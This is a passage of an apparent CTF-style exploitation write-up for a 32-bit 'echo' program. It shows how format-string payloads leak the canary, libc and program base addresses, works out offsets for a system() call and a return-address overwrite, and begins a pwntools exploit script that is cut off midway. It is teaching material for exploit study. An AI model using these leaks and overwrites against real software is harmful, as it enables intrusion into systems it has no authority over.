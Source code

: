 Looking at the image from earlier, we can see that, at the point `printf` for the name field is called, the return address of `main` is located one address after `$ebp`, at an offset of `0x+0x002c = 44`, therefore, using the format string `%11$x` should be enough to leak that address. Since we know libc's base address in this session is `0xf7d8b000`, we can calculate the offset to subtract to the leaked address to be `0xf7dac519 - 0xf7d8b000 = 0x00021519`.

Now that we can determine the address of the `system` function, we need to get the address of `buffer`, so that we can use it as an argument to the call.

The `buffer` variable is located in the program's address space. As such, we need to leak the base address of program's address space, similarly to what we did with libc.
Using the same image of the stack from before, we can see that, the address of `main` is located at offset `+0x0044` (68 in decimal). Therefore, in order to leak it, the format string `%17$x` can be used. After that, we can subtract the start address of program's address space in this debug session from it to get the offset that we need to subtract to the address leaked in the attack.
As such, the offset is `0x565562ad - 0x56555000 = 0x000012AD`

With all this information, we are now fully prepared to overwrite the return address and to write the arguments to the `system` function call.

This is the stack at the point the `fgets` for the name field is called.

![Stack when fgets is called](/images/echo/rop/stack-fgets.png)

As you can see, the address where the input will be written to in this process is `0xffffc99c`. Therefore, if we dump the stack at that address, we can see that we will have to, at `0x20 = 32 bytes`, overwrite the return address and, at `0x24 = 36 bytes`, overwrite the argument for the `system` function call. In the middle, at `0x14 = 20 bytes`, we will have to write the canary so that it doesn't change (the canary has changed because we had to restart the session, however, that has no impact in this section).

## Exploitation

Recalling all information we gathered during the Recon phase, we've developed the following exploit.

```py
from pwn import *

def leak_canary(proc):
    """Returns the canary of the process as a 32-bit integer."""
    payload = b"%8$x"
    proc.sendlineafter(b">", b"e")
    proc.sendlineafter(b":", payload)
    canary = proc.recvline(keepends=False)
    proc.sendlineafter(b":", b"")
    return int(canary, 16)

def leak_main_addr(proc):
    """Returns the address of main as a 32-bit integer."""
    payload = b"%17$x"
    proc.sendlineafter(b">", b"e")
```